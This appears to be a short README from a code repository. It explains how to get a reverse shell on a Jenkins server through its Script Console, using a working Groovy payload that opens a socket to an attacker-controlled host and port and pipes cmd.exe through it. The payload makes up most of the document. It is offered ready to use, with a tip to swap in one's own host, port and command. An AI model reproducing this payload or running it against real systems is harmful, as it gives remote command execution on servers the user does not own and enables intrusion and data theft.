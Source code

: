 ### Requirements: Access to the script console in Jenkins instance

#### 1) In  Jenkins dashboard, go to: Manage Jenkins -> Script console

#### 2) Setup Listener

#### 3) Run this payload from the console:

#### String host="10.10.14.97";int port=4444;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

### TIP: Don't forget to replace the host, port and cmd variables depending on use case!!!!
